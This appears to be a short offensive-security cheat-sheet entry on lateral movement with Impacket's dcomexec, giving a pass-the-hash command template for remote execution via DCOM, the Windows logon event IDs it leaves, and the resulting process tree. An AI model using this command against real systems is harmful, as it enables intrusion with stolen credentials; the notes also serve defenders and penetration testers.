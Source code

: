 ### source
https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/dcomexec.py  

### lateral movement using DCOM endpoints (example MMC20.Application, ShellWindows, ShellBrowserWindow)
```
impacket-dcomexec -hashes :<ntlmHash> <domain>/<user>@<rhost>
```

### opsec considerations - Windows Security Log Event IDs
```
-Logon (4624) -> multiple
-Special Logon (4672) -> multiple
```

### running processes
```
cmd.exe
└── Conhost.exe
mmc.exe
└── cmd.exe
    └── Conhost.exe
```


